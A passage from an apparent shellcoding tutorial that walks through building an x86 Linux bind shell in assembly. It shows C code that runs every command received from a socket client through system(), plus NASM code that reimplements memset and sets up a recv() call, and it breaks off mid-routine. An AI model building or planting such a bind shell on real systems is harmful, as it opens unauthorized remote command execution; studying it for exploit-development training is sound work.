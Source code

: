 In the code above, the `loop` instruction is used to repeat the routine `RepeatDuplicate` three times, for `error` (fd: 2), `output` (fd: 1), and `input` (fd: 0).

#### Command Execution

Finally, to have a fully-functional bind shell, we need to convert the following block of code into assembly:

```cpp
// receive data from client (max 1024 bytes)
while ((bytes_read = recv(client_socket_fd, &client_command, 1024, 0)) > 0) {
    // execute client command
    system(client_command);
    memset(client_command, 0, sizeof(client_command));
}
```

Follows the syscall numbers:

- `recv`: invoked via `socketcall` (`SYS_RECV`: `10`)
- `system`: it's a wrapper, so we're going to use `execve`
- `memset`: there's no syscall

It seems we're missing some functions. Therefore, I decided to reimplement it manually:

```nasm
ReceiveData:

    xor ecx, ecx
    mov ebx, ecx
    mov ch, 4
    lea eax, [ReceivedData]

ClearCommandBuffer:

    mov [eax], BYTE bl
    inc eax 
    dec ecx 
    loop ClearCommandBuffer
```

{% sidenote Implementation of `memset`, loop 1024 times in order to clear the buffer %}

```nasm
    ; 4th argument of recv(): NO flags
    push ebx

    ; 3rd argument of recv(): size of the buffer that stores the command received
    xor ebx, ebx
    inc ebx
    rol bx, 10
    push ebx

    ; 2nd argument of recv(): pointer to the aforementione buffer
    push ReceivedData

    ; Client File Descriptor
    push edi

    ; syscall #102: socketcall()
    xor eax, eax
    mov al, 102

    ; 1st argument of socketcall(): call SYS_RECV
    xor ebx, ebx
    mov bl, 10

    ; 2nd argument of socketcall(): pointer to the arguments of SYS_RECV
```